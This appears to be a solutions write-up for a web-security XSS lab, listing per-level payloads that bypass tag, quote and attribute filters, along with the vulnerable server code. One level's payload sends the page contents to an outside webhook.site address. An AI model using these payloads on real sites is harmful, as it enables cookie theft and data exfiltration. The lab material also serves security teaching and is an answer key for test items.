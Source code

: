 # 0. Welcome

N/A

# 1. A Truly Disruptive Startup (3 points)

```
<script>success(document.cookie)</script>
```

# 2. No Script Allowed (3 points)

```
<script><script>success(document.cookie)</script>
```

# 3. One More Time, Like You Mean It (3 points)

```
<scrscriptipt>success(document.cookie)</scrscriptipt>
```

# 4. An Open-and-Shut Case (3 points)

```
<SCRIPT>success(document.cookie)</SCRIPT>
```

# 5. Time to Mix Things Up (3 points)

```
<ScRiPt>success(document.cookie)</ScRiPt>
```

# 6. A Picture is Worth a Thousand Words (3 points)

```
<img src=1 onerror=success(document.cookie)></img>
```

# 7. Between a Rock And a Hard Place (3 points)

```
<img src=1 ononerror=error = success(document.cookie)></img>
```

# 8. Angle of Death (6 points)

Attack input:

```
<<script>>success(document.cookie)</script>
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''
  let oldQ
  while (q !== oldQ) {
    oldQ = q
    q = q.replace(/<|>/g, '')
  }
  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 9. All in a Day's Work

N/A

# 10. In the Wrong Place at the Wrong Time (3 points)

```
<iframe src="<svg onload=success(document.cookie)>">
```

# 11. You Can't Win 'em All (6 points)

Attack input:

```
<iframe src=""<svg onload=success(document.cookie)>"">
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  let oldQ
  while (q !== oldQ) {
    oldQ = q
    q = q.replace(/"/g, '')
  }

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 12. When All is Said and Done (6 points)

Attack input:

```
'><img src=x onerror=success(document.cookie)>
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  q = htmlAttributeEscape(q)

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 13. When You Want a Job Done Right

N/A

# 14. Here Today and Gone Tomorrow (3 points)

Attack URL:

```
http://caloogle.xyz:4140/search?q=dk%5C&lang=en%22%20onload=success(1)
```

# 15. The Early Bird Catches the Worm (3 points)

```
</ScrIpt><script>success(1)</script>
```

# 16. Tying Up Loose Ends (3 points)

```
<<//ScrIpt><script>success(1)<<//script>
```

# 17. Take a Page Out of Their Book (6 points)

Attack code:

```
<script>/* Bad stuff here... */</script>

js:

 function send(payload) {
    fetch('/comment', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({text: 'http://google.com/', id: "1);success("})
    }).then((response) => response.clone().text())
    .then((data) => console.log(data));
}

send('<script> payload = document.documentElement.innerHTML; window.location="https://webhook.site/my-private-id?query=" + encodeURIComponent(payload); </script>')
```

# 18. Congrats

N/A

# Əlavə qeydlər

```
Əlavə qeydlərinizi yazın
```
